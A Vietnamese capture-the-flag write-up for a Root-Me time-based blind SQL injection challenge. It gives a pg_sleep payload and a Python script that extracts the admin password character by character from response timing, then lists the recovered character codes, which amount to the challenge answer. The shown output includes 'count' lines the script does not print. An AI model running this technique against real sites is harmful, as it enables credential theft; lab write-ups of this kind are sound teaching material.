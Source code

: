 Ý tưởng bài này và bài `blind` giống hệt nhau: đều là brute force từng kí tự của password admin. Địa điểm inject tại URL như bên dưới:

> http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=inject_sql_here

trong đó thay vì xem authentication `true` or `false` như bài `blind`, ta xem xét thời gian response trả về bằng cách chèn payloads sau vào URL:

> 1; select case when condition then pg_sleep(5) else pg_sleep(0)

trong đó condition sẽ là câu truy vấn mò mẫm để tìm ra những thông tin cần thiết, ví dụ tên bảng, tên cột, độ dài password,...

Viết tool python đơn giản hóa:

```python
import time
import requests
for y in range(1, 14):
    for x in range(33, 127):
        start = time.time()
        r = requests.get("http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1;select+case+when+substr((select+password+from+users+limit+1+offset+0)," +             str(y)+",1)=chr("+str(x)+")+then+pg_sleep(5)+else+pg_sleep(0)+end--")
        end = time.time()
        if end-start > 2:
            print("x : ", x)
            break
```

chạy code trên ra output:

```
count:  1
x :  84
count:  2
x :  33
count:  3
x :  109
count:  4
x :  51
count:  5
x :  66
count:  6
x :  64
count:  7
x :  115
count:  8
x :  51
count:  9
x :  68
count:  10
x :  83
count:  11
x :  81
count:  12
x :  76
count:  13
x :  33
```

chuyển từ dec sang char được password cần tìm và đăng nhập thôi